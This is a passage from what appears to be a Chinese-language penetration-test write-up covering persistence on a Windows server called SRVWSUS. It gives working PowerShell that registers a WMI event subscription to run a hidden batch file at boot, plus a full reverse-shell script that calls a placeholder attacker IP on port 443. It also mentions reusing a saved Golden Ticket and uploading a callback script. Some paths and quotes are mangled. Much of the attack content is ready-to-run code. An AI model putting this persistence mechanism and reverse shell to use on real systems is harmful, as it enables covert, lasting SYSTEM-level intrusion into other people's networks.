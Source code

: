 最后将Ticket存到文件中就好了,在这之后，我们挑出admin.krb文件，之后会用到。

<br>

**权限维持**

在离开系统之前，我们必须设置一个能够维持对暴露在公网的服务器访问的方法，以供日后使用。在这一步，不被发现并不容易，即使是新手系统管理员也会发现一些端倪。

我们选择了一个机遇WMI特性的更加复杂的方法，利用了InstanceModificationEvent。

在一个WMI对象实例改变了它的寄存器时，它都是作为一个InstanceModificationEvent。在这样的条件下，我们过滤了事件系统启动时间，在系统启动200到300秒之内，我们将为eventconsumer提供一个commandlineeventconsumer。

在SRVWSUS这台服务器上，我们发送了以下命令：



```
$filterName = “JustForTestFilter”
$consumerName = “JustForTestConsumer”
$exePath = “C:windowshelpwindowsindexstorer.bat”
$Query = “SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’ AND TargetInstance.SystemUpTime &gt;= 200 AND TargetInstance.SystemUpTime &lt; 300”
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace “rootsubscription” -Arguments @`{`Name=$filterName;EventNameSpace=”rootcimv2″;QueryLanguage=”WQL”;Query=$Query`}` -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace “rootsubscription” -Arguments @`{`Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exepath`}`
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace “rootsubscription” -Arguments @`{`Filter=$WMIEventFilter;Consumer=$WMIEventConsumer`}`
```

然后再windows隐藏的文件夹里，创建了r.bat，内容如下：

```
powershell -executionpolicy bypass -windowstyle hidden -f C:windowshelpwindowsindexstorer.ps1
```

而r.ps1文件的内容是：



```
$c=New-Object System.Net.Sockets.TCPClient(‘&lt;OUR_PUBLIC_IP&gt;’,443);
$s=$c.GetStream();[byte[]]$b=0..65535|%`{`0`}`;
while(($i=$s.Read($b,0,$b.Length))-ne 0)`{`;
$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb=(IEX $data 2&gt;&amp;1 | Out-String );
$sb2=$sb+’PS ‘+(pwd).Path + ‘&gt; ‘;
$sb=([text.encoding]::ASCII).GetBytes($sb2);
$s.Write($sb,0,$sb.Length);
$s.Flush()`}`;
$c.Close()”
```

这将保证它在重新启动时通过SRVWSUS执行本地SYSTEM权限的远程shell。

最后，我们测试了我们拿到的Golden Ticket，还记得admin.krb这个文件吗？

通过SRVWSUS本地系统管理员权限的shell，我们下载了admin.krb，配置了端口转发，并将带有回连指令的脚本r3.ps1上传到SRVWSUS的9000端口。
